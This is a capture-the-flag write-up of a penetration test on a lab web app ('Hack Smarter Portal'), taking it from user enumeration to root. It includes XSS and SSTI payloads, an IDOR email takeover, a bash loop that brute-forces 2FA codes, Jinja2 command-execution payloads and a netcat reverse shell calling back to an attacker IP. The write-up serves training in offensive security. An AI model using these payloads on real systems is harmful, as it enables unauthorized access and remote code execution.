# Verbose

## Objective/Scope

You have been authorized to perform an external penetration test against a target organization. During the initial reconnaissance phase, you identified a web application that allows unrestricted public user registration.

1. **Enumerate:** Map the application's attack surface and functionality.
2. **Identify:** Locate exploitable vulnerabilities within the application logic or configuration.
3. **Exploit & Escalate:** Leverage identified flaws to compromise the system, with the final goal of securing root access to the host server to demonstrate maximum impact.

Add the received IP to `/etc/hosts`

```bash
10.1.215.232    verbose.hsm
```

I completed the challenge with great help from the [official walkthrough](https://youtu.be/08QUX47CVQ0?si=VjAHAHbxBZiMMfA5)

## Port Scan

```bash
└─$ rustscan -a verbose.hsm --ulimit 5000 -- -A -oN nmap.log
...
Open 10.1.215.232:22
Open 10.1.215.232:80
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:41:c3:f4:b7:90:5e:bf:d1:cd:2d:4a:ac:71:40:00 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoWJp/SmyAhMsgJ93KaAA9X+zWR9h8Xr0Gm3CMm1f88wjV3uCpvtlYDPAsnfXBsNkAvHPbkzhPyx8sGpUuAA5s=
|   256 4d:ca:01:c5:bc:a9:f8:2e:f8:69:2b:0f:8b:45:fd:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIkCiV2/J/bjb81dMrDeYHf/OjeRvRPNgJCjgQnjbGtG
80/tcp open  http    syn-ack ttl 62 Werkzeug httpd 3.1.5 (Python 3.12.3)
| http-title: Hack Smarter Portal
|_Requested resource was /login
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: Werkzeug/3.1.5 Python/3.12.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15

```

Seems that HTTP (Port 80) is our only way in.

## SSH (Port 22)

It is key-based authentication

```php
└─$ ssh root@verbose.thm 
The authenticity of host 'verbose.thm (10.1.215.232)' can't be established.
ED25519 key fingerprint is: SHA256:m5lfHui2I7jEnqA7YwBnjsO9iveEhEIHeXkib1jIdhc
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'verbose.thm' (ED25519) to the list of known hosts.
root@verbose.thm: Permission denied (publickey).
```

---

## HTTP (Port 80)

### Login Page

We are first introduced with the `login` page.



### Forget Password

When I ask to reset the password, the website prompt me to enter the username


When I type `admin` and hit Enter, it redirects me to the login page.


I assume that there is a reset link or a temporary password sent to the email.

---

### Register

All we can do now is register for a new account.



**User Enumeration**

The login website returns different responses.

When a new username is provided, it will redirect us to the login page


But when the username has already been taken, a error message is returned



Without rate limiting, an attacker can keep sending requests and enumerate taken usernames.

---

**Information Disclosure**

Besides, the response discloses the software version, which should be avoided.

```
Server: Werkzeug/3.1.5 Python/3.12.3
```

---

### Dashboard

The dashboard reflects our username 


To find vulnerabilities, we can try to create accounts with their usernames being malicious payload and see how the website will treat them.

---

**HTML Injection In Username**

Using `<h2>test</h2>`, we can see that our username now becomes H2



---

**XSS In Username**

We can also execute JavaScript using `<script>alert('XSS Found in Username!')</script>`



---

### Inbox

Checking the inbox reveals all the other users, including the `admin` user. We can also receive incoming message in this page


So we know the available users are:

- tony
- johnny
- admin
- student

The inbox also allows us to send messages to others and to ourselves.

---

**HTML Injection in Message**

The `<h1>Test</h1>` will be rendered in the message



---

**XSS in Message**

By sending `<script>alert('XSS Found!')</script>`, we can also confirm the inbox suffers from XSS.



And there is an error at the bottom


---

**SSTI in Message**

Using the `{{7**7}}` payload, we found that it is vulnerable to SSTI



---

### Profile

The `Update Profile` is more interesting. It allows us to change our phone number, password, email, and enable 2FA.



---

**Changing Arbitrary Username**

The username is disabled on the client side



To edit the username, we can remove `disabled=disabled` 



Clicking Save Settings, we can see our username is changed to test1234. So the backend server accepts the modification



The portal also allow us to change to existing users


When I scroll down, I also see that our email has been changed to the admin email.


The change is not done by me. It occurs after I change the username

We can see we are treated as `user_id=3`, yet it reality, we are still in the test account

```html
<form method="POST">
    <input type="hidden" name="action" value="update_email">
    <input type="hidden" name="user_id" value="3"> 
    <label>Current Email: <strong>admin@hacksmarter.local</strong></label>
    <input name="email" placeholder="New Email Address" required="">
    <button type="submit" style="background: #f59e0b; color: #0f172a;">Update Email</button>
</form>
```

By modifying a username to `admin`, we have accidentially leak the admin email

---

**Changing Email (IDOR)**

When we reset the password, the notification confirms that we updated it successfully.


But when we update the email, it will notify which User ID updated the email


Notice that both operation does not require any re-authentication.

Further investigating the form, we can see that a unique hidden input called `user_id` is submitted along with the email-changing request.

```bash
 <h3>Update Email</h3>
        <form method="POST">
            <input type="hidden" name="action" value="update_email">
            <input type="hidden" name="user_id" value="5"> 
            <label>Current Email: <strong>admin@gmail.com</strong></label>
            <input name="email" placeholder="New Email Address" required>
            <button type="submit" style="background: #f59e0b; color: #0f172a;">Update Email</button>
        </form>
```

Combining the users we have gathered in the inbox, we can deduce the following ID to username mapping.

```bash
id   username
1    tony
2    johnny
3    admin
4    student
5    test
```

So We can try to overwrite the email of the `admin` account. To do that, change the `user_id` input in the form to 3


We can see that the email has been updated, which confirms IDOR


I tried to use a real email address, but after a long time of waiting, I still cannot receive any reset instructions, meaning this is probably a dummy function.

---

**API Information Disclosure** 

In the Inbox, there is a refresh message button, which call the `/api/users/all` API to retreive for users information and new messages


If we inspect the response, we can see it is very verbose


> Notice that because I did restart the instance. Therefore the previous accounts were gone.
> 

---

### 2FA

With the newly obtained email, we can try to login as admin. But the admin account has 2FA Enabled.


---

**Bash script (Not Recommanded)**

During my first attempt, I wrote a bssh script that attempts to brute force the OTP

```bash
#!/bin/bash

for i in {0000..9999}
do
    result=$(curl -X POST http://verbose.hsm/mfa -b 'session=eyJtZmFfdXNlciI6ImFkbWluIiwic2Vzc2lvbl9pZCI6ImIyMWU4OTAyLTNmZmUtNDA0MC1hNWI5LTc5MDE2MGE0MGZhMyJ9.apaitg.CnRm27h6PhqNiv0_vXlgun_xq80' -d "code=$i")
    if [[ $result == *"Incorrect 2FA Code."* ]]
    then
        continue
    fi
    echo "2FA Code Found! It is $i"
    break
done
```

> I believe you can use the `-Z` flag to create threads and `--parallel-max <number>`  to control the maximum threads. But it is still not efficiency and create a lot of traffic
> 

After a long while, the OTP is broken.

```bash
2FA Code Found! It is xxxx
```

Luckily for us, the OTP won’t expire and we can login as admin


---

**API OTP Disclosure**

Previously, we know that the `/api/users/all` contains too much information. But what is even more danagerous is that it does not require authentication. You can access to it with a session

```bash
└─$ curl http://verbose.hsm/api/users/all -v

...

< 
[{"email":"admin@hacksmarter.local","id":3,"mfa":null,"password":"xxxxxxxxxxxxxxxxx","role":"admin","username":"admin"},...,{"email":"test@gmail.com","id":5,"mfa":null,"password":"test","role":"user","username":"admin"}]
```

Notice there is a `mfa` attribute. It will contain the MFA we need when we trying to login the admin account

```bash
└─$ curl http://verbose.hsm/api/users/all -v

...

[{"email":"admin@hacksmarter.local","id":3,"mfa":"4701","password":"xxxxxxx","role":"admin","username":"admin"}...]
```

With the MFA, we can login as admin again and get our first flag


---

## Achieve RCE from Admin Account

Now, we need to try to achieve RCE to get the final flag

The admin Dashboard can be seperated into three sections: Site Branding (File upload), Server Status (Ping), and Promote User (admin role)

### **Server Status**

There is only one a ‘Check Health’ button in the section


It redirects us to a Not Found Page


The underlying request specify an IP address


I tried to enter my Attacker IP address and open a nc listener, but it receive nothing. The same thing happens in command injection attempts. After some testing, I believe it is a rabbit hole. 

---

### **Promote User**

As the name suggest, it allow the admin to let others becoming admin


For example, we can make our test account become an admin


Upon refreshing the dashboard, we can see it succeed.


You can also type a unexisting user. In this case, we can also see it does not vulnerable to SSTI


---

**XSS In Promote User**

Using `<script>alert('XSS in Promote User')</script>`, we can launch a XSS successfully


---

**HTML Injection in Promote User**

Similarly, using `<h1> HTML Injection In Promote User</h1>` , we can see it is treated as a H1 block


However, these two vulnerabilities are less severe as it requires a admin account, and it brings us nowhere near RCE

**Weak CSRF Token**

The CSRF Token is not a random string. The attacker can launch a CSRF if he knows the csrf_token


---

### **Site Branding**

In the Site Branding session, we can upload a logo


Here is what happens when I try to upload a text file as `logo.png`


So the website will also checks for MIME type or Magic Bytes

When we upload a normal PNG file, we can navigate to the Preview Current Logo to see the image


We can see the image is saved as `logo.png` and there is the metadata displayed at the bottom


I tried path traversal but failed


Looking at the request and response also seems to be invulnerable.


---

**SSTI in Metadata Rendering**

Recall that we found SSTI vulnerability before. We can try to embed the payload in the metadata, then the website will try to render it.

To experiment, we can first embed  `{{7**7}}` into the image (You can use `-Artist` to just overwrite the Artist metadata)

```
└─$ exiftool -all='{{7**7}}' cat.png                                                                                                                                                                               
    1 image files updated
```

Upload the new image to the website. Instead of seeing `{{7**7}}`, we see `823543`



Refer to [Portswigger](https://portswigger.net/web-security/server-side-template-injection), we can further narrow down the Templete Engine to see what payload we can use


Similarly, use `{{7*'7'}}`

```
└─$ exiftool -Artist="{{7*'7'}}" cat.png                                                                                                                                                                             
    1 image files updated
```

> You should be aware that the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. Therefore, it is important not to jump to conclusions based on a single successful response.
> 

The template engine should is Jina2


> Note: In the first time, I used `exiftool -Artist={{7*'7'}} cat.png` instead, which the result points to Twig
> 
> 
> 
> 
> When I check the metadata, I realize the single quotes are gone
> 
> ```bash
> └─$ exiftool cat.png|grep Artist
> Artist                          : {{7*7}}
> ```
> 
> But eventually, you will realize it might not be Twig as no payloads are working. For example `{{system('id')}}` should work, but it is undefined
> 
> 
> 
> So remember to quote the metadata
> 

---

**Payloads**

Knowing what is the template engines, all we have to do is to use the right payload. [PayloadsOfAllThings]((https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)) is a great resource for that.

I first used `{{config.items()}}`, it leaked the secret key



Then we can read `/etc/passwd` using `{{ get_flashed_messages.**globals**.**builtins**.open("/etc/passwd").read() }}`


And we can check our id using the following:

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

We found that we are already root.


So we can either read the flag directly, or through a reverse shell. 

---

## Reverse Shell

All we need to do is to replace the reverse shell payload, like the following: 

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.200.87.2 1234 >/tmp/f')}}
```

Going back to the listenering, we can recieve the connection

```
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.200.87.2] from (UNKNOWN) [10.1.215.232] 49886
sh: 0: can't access tty; job control turned off
# whoami
root

```

The flag is under the  `/root` directory

```
# ls /root/root.txt                                                                                                                                                                                                
/root/root.txt 
```

---

## Interesting Vulnerabilities/paths

### XSS To Disable MFA

Tyler has displayed how to disable MFA with XSS. It can allow attacker to disable the MFA option once the admin reach the inbox page. The [video](https://youtu.be/45ordnUORAs?si=4fIB0_kpGX00PtkZ&t=1344) is here.

---

#### SSTI Solve in normal user Account

I throw away the SSTI vulnerability after I found it, but it is very easy to exploit.

To begin, all we need is a account and go to the inbox. And send message to yourself. In below, I used `{{7*'7'}}`.


We can then do the reverse shell again and  get the root flag.


To get the admin page flag, we can find it by reading app.py

```bash
root@ip-10-1-215-232:/home/ubuntu/auth# cat app.py

...

<h2 style="color: #facc15;">Admin Dashboard xxxxxxxxxxxx</h2>
```
